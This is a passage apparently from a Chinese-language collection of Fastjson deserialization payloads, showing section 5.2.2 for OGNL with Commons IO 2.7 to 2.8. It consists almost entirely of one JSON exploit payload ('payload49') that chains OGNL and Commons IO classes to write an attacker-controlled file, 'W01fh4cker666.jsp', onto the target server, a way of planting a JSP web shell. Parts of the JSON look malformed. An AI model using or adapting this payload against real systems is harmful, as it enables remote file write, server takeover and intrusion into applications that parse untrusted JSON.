 ### 5.2.2 ognl+commons-io 2.7~2.8 版本

`payload49`：

```plain
{"su14":{"@type":"java.lang.Exception","@type":"ognl.OgnlException"},"su15":{"@type":"java.lang.Class","val":{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"java.lang.String""@type":"ognl.OgnlException","_evaluation":""}},"su16":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa...","start":0,"end":2147483647},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"W01fh4cker666.jsp","charsetName":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},"su17":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},"su18":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}},"su19":{"@type":"ognl.Evaluation","node":{"@type":"ognl.ASTMethod","p":{"@type":"ognl.OgnlParser","stream":{"@type":"org.apache.commons.io.input.BOMInputStream","delegate":{"@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.input"},"branch":{"$ref":"$.su16.node.p.stream.delegate.reader.inputStream.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"charsetName":"UTF-8","bufferSize":1024},"boms":[{"@type":"org.apache.commons.io.ByteOrderMark","charsetName":"UTF-8","bytes":[36,82]}]}}}}}
```
